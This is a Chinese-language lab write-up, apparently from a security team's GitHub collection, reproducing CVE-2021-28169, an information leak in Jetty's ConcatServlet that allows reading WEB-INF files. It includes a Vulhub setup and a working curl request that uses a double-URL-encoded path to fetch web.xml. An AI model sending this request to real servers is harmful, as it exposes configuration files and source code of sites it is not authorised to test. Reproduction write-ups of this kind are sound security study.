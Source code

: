 # CVE-2021-28169

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞



## 0x01 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

## 0x02 影响版本

```
9.4.40, 10.0.2, 11.0.2版本前
```

## 0x03 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

![image-20240903213458318](./image/image-20240903213458318.png)

## 0x04 漏洞复现

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：

![image-20240903213517077](./image/image-20240903213517077.png)

对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![image-20240903213554779](./image/image-20240903213554779.png)